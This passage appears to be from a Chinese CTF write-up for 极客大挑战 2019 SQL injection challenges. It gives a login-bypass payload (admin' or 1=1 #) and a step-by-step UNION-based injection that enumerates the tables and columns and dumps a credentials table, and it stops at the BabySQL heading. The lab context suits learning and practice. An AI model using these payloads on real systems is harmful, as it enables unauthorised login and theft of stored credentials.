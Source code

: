 万能密码传入，我们的账号密码不对（or前面），就**会执行or后面的'1'='1'这是一个恒真**的，我们使用错误的账号密码来达到了登录成功的目的

#### 思考

payload

```
admin' or 1=1 #		//用户名直接输入，密码随便输
```



### [极客大挑战 2019]LoveSQL

#### 考点：union联合注入

#### 思考

查看有几个字段，发现有3个字段

```
?username=admin' order by 3%23&password=1
```

爆库：库名为`geekuser`

```
?username=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23&password=1
```

爆表

发现有两张表：geekuser，l0ve1ysq1

```
?username=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23&password=1
```

爆字段

l0ve1ysq1这张表很奇怪，先选择查这个

发现有3列：'id,username,password'

```
?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1
```

爆值

发现flag

```
?username=1' union select 1,2,group_concat(id,'~',username,'&',password) from l0ve1ysq1 %23&password=1
```



### [极客大挑战 2019]BabySQL
